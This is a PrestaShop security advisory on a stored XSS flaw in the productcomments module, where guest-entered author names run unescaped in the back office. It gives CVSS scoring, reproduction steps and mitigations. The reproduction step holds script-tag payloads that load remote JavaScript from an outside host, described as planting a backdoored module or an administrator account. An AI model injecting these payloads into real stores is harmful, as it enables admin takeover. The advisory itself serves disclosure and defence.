 ```yaml
---
layout: post
title: "CWE-79 Danger of stored XSS vulnerability in CMS especially for PrestaShop"
categories: modules
author:
- 202 ecommerce
- TouchWeb
- Friends-Of-Presta.org
meta: "CVE,PrestaShop"
severity: "critical (9.6)"
---
```


As a developer, the severity level is often considered to be low. By underestimating the gravity, we lower our guard against these vulnerabilities. However, some types of vulnerabilities called "stored XSS" are particularly critical when they spread from the front office to the back office.

## Summary

* **Published at**: 2023-02-07
* **Vendor**: All CMS. 
* **Weakness**: [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* **Severity**: critical (9.6)

Vulnerability by design applied on PrestaShop qualified on productcomments module suffering of [CVE-2022-35933](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-35933)

## Description

This publication is a summary of Touchweb's work studying the impact of XSS vulnerabilities in the context of the PrestaShop CMS. 

To highlight the criticality of XSS and give us the means to mitigate their effects, Touch Web conducted its research based on the vulnerability of the [productcomments module](https://github.com/PrestaShop/productcomments/security/advisories/GHSA-prrh-qvhf-x788), which in version 5.0.1 has a stored XSS.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: required
* **Scope**: changed
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H

### How to know if a XSS is critical ?

That's important to caracterize with strictness XSS. There is to many people which only tag this vulnerability as "XSS" which is dangerous since there will be misunderstood and often under valuation of gravity.

The most dangerous are XSS of type 2 according to their official CWE ([CWE-79](https://cwe.mitre.org/data/definitions/79.html)), meaning Stored-XSS (or persistent XSS) and more specialy those which can be injected from FRONT by guest or assimilated to target BACK.

We will call them: [CWE-79](https://cwe.mitre.org/data/definitions/79.html) / T2-F2B (Type 2 : Stored XSS AND from Front office to Back office).

In summary, if you can inject a XSS from FRONT as guest (or assimilated), which will be stored in database then interprated on BACK, then it's a critical vulnerability which must be scored CVSS 3 : 9.5+/10 since it unlocks design's vulnerabilities (users's administration / modules's administration / any admin's controllers)

For all others XSS including Type 0/1 and Type 2 F2F/B2B/B2F, you can preserve a low to medium gravity score specificaly on Prestashop. Nevertheless, be warn that on other solutions, XSS of type 1 can be critical (like Wordpress which suffer of a predictible backoffice's link).

### Module presentation

The productcomments module allows, as an anonymous or customer, to post comments associated with products from the front office of the store. Three fields are present:
* title
* Author
* Content

The author field, after a refactoring, is not protected in the sense that the entered value is stored as is in the database and displayed without escaping in the back office.

Example:
* author entered: <em>my name</em>
* result: my name will be displayed in bold in the back office in the moderation table of comments.

From then on, it is possible to inject malicious JavaScript, for example: `<script src='test.js'>`


### Proof of concept

Touchweb provides two benign JavaScript scripts that highlight the vulnerability for PrestaShop 1.7+ (we tested for 1.7.7.8).
* Script A allows injecting a blockwishlist module containing a backdoor without the knowledge of a moderator, i.e. an administrator with rights.
* Script B allows injecting an administrator in the specific case where it is disabled.

DO NOT TEST IT IN PRODUCTION.


### How to reproduce?

* We installed PrestaShop 1.7.7.8.
* We installed the [productcomments module zip](https://github.com/PrestaShop/productcomments/releases/download/v5.0.1/productcomments.zip).
* (Optional) To facilitate adding comments without a customer account, we activated the anonymous comments option.
* Enter `<script src="//1j.vc/ps_a.js">` or `<script src="//1j.vc/ps_b.js">` as "author" and complete the other fields.
* Return to the back office on the module configuration page.


### How to best protect yourself?

In the face of a Stored XSS vulnerability targeting the back office, it is impossible to undo all the effects. However, the most dangerous exploits can be limited.

* Systematically escape characters ' " < and > by replacing them with HTML entities and applying strip_tags - Smarty and Twig provide auto-escape filters: 
** Smarty: `{$value.comment|escape:'html':'UTF-8'}`
** Twig: `{{ value.comment|e }}`
* Configure CSP headers (content security policies) by listing  externals domains allowed to load assets (such as js files).
* If applicable: check against all your frontoffice's uploaders, uploading files which will be served by your server with mime type application/javascript (like every .js natively) must be strictly forbidden as it must be considered as dangerous as PHP files.
* Activate OWASP 941's rules on your WAF (Web application firewall) - be warn that you will probably break your backoffice and you will need to preconfigure some bypasses against these set of rules.


### How to know if I'm already infected by a XSS of type 2 (Stored-XSS)?

You must check every tables within your database which could store guest's input, at least against common XSS injection. 
You can find a list of potential hijacked events on [PrestaShop method Validate::isCleanHtml()](https://github.com/PrestaShop/PrestaShop/blob/develop/classes/Validate.php#L507)

Be warn that you will probably face falses positives alerts which can be time consumming.
